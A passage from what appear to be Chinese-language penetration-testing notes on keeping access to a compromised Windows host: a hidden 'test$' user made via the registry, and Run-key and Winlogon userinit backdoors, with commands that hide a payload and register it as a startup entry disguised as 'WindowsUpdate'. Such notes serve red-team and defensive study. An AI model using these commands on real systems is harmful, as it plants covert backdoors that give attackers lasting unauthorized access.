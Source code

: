 双击执行修改的注册表文件,和导出的 test$

此时 test$ 用户已经加入注册表中，但是在本地用户和组中找不到
```
net user test$
```

如果要删除,必须要去注册表删账号相应的键值

---

### MSF权限维持

内容参见 [metasploit 笔记](../../工具/Metasploit.md#权限维持) 权限维持部分

---

### 权限维持技巧

**相关文章**
- [内网渗透-权限维持](http://rtshield.top/2019/09/16/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/)

**注册表后门**
```
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```
原理就是在注册表的启动项下，新建一个键值对，键可变，值为后门程序的路径

1. 上传后门程序

2. 隐藏文件
    ```
    attrib "C:\Windows\Temp\payload.exe" +h +s
    ```

3. 通过注册表加入启动项
    ```
    reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /t REG_SZ /d "C:\Windows\Temp\payload.exe" /f
    ```
    `/v` 后面为键的名称，`/t` 为键的类型，`/d` 为该键具体的值，`/f` 意为强制覆盖现有项

- 清除后门
    ```
    reg delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v WindowsUpdate /f
    ```
    删除注册表下对应的键值

    ```
    del C:\Windows\Temp\payload.exe
    ```
    清除后门程序

**userinit 注册表后门**
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
原理就是用户在登录时，winlogon 会自动运行其中指定的程序
